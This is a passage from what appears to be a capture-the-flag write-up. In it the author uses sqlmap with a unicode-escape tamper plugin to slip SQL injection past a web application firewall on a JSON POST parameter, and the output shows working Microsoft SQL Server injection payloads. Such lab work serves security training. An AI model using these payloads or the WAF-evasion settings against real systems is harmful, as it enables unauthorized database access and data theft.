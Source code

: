 Rather than do this manually (way too much encoding), I'll turn to
`sqlmap`. I'll right click on the request in Burp and select "Copy to
file", saving it as `colleagues.request`. I'll need some features:

-   The `charunicodeescape` [tamper
    plugin](https://github.com/sqlmapproject/sqlmap/blob/master/tamper/charunicodeescape.py)
    will unicode encode all the characters in the payload. This will
    avoid the WAF checking for bad characters.
-   `--delay 5` will slow down the process to one request every 5
    seconds. It may have been able to go faster, but I was walking away
    for a bit, so I left it with this. I added `--proxy` so that I could
    see that requests were still going through Burp when it looks
    frozen.
-   `--level 5 --risk 3` turns up the things it's willing to try to the
    max. `--batch` will take the default answer to any prompts.



    root@kali# sqlmap -r colleagues.request --tamper=charunicodeescape --delay 5 --level 5 --risk 3 --batch --proxy http://127.0.0.1:8080
            ___
           __H__
     ___ ___[']_____ ___ ___  {1.4.3#stable}
    |_ -| . [.]     | .'| . |
    |___|_  [,]_|_|_|__,|  _|
          |_|V...       |_|   http://sqlmap.org
    ...[snip]...
    [*] starting @ 18:08:31 /2020-03-30/

    [18:08:31] [INFO] parsing HTTP request from 'colleagues.request'
    [18:08:31] [INFO] loading tamper module 'charunicodeescape'
    JSON data found in POST body. Do you want to process it? [Y/n/q] Y
    ...[snip]...
    [18:31:01] [INFO] (custom) POST parameter 'JSON name' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
    [18:31:01] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
    (custom) POST parameter 'JSON name' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
    sqlmap identified the following injection point(s) with a total of 258 HTTP(s) requests:
    ---                                                        
    Parameter: JSON name ((custom) POST)                       
        Type: boolean-based blind                              
        Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
        Payload: {"name":"test' OR NOT 3782=3782-- bJBd"}

        Type: stacked queries                                  
        Title: Microsoft SQL Server/Sybase stacked queries (comment)
        Payload: {"name":"test';WAITFOR DELAY '0:0:5'--"}

        Type: time-based blind                                 
        Title: Microsoft SQL Server/Sybase time-based blind (IF)                                                          
        Payload: {"name":"test' WAITFOR DELAY '0:0:5'-- FvDZ"}
